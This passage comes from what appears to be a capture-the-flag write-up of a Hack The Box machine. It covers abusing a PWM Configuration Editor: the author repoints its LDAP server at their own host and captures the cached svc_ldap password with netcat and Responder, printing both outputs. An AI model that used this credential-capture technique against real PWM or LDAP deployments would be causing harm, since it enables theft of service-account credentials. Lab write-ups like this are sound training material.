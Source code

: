 ![image-20231127125848531](https://0xdf.gitlab.io/img/image-20231127125848531.png)

PWM is running out of `C:\pwm`.

#### Configuration Editor

It also works to get into the Configuration Editor:

![image-20231127130156435](https://0xdf.gitlab.io/img/image-20231127130156435.png)

There are tons of options here I can mess with. In the LDAP connection config, I get the same hostname, `authority.authority.htb`, as well as the svc\_ldap username:

![image-20231127130405797](https://0xdf.gitlab.io/img/image-20231127130405797.png)

The creds used are stored, but not retrievable through the web GUI:

![image-20231127130505380](https://0xdf.gitlab.io/img/image-20231127130505380.png)

### Capture LDAP Creds

There are some cached credentials stored. To recover them, I’ll edit the URL to point at me, using cleartext LDAP rather than LDAPS (and using the default LDAP port 389):

![image-20231127130706990](https://0xdf.gitlab.io/img/image-20231127130706990.png)

I’ll listen with `nc` on 389 and click “Test LDAP Profile”:

```
oxdf@hacky$ nc -lnvp 389
Listening on 0.0.0.0 389
Connection received on 10.10.11.222 61956
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htblDaP_1n_th3_cle4r!

```

The password is “lDaP\_1n\_th3\_cle4r!”, though it’s not trivial to see in that capture, as there are non-ASCII characters in this data that the terminal just drops. It’s easier to see in Wireshark:

![image-20231127131357051](https://0xdf.gitlab.io/img/image-20231127131357051.png)

Authority is acting as the client trying to authenticate to my VM, and sends these creds in the clear. [Responder](https://github.com/lgandx/Responder) will also listen for and capture these creds:

```
[+] Listening for events...

[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!

```

### WinRM
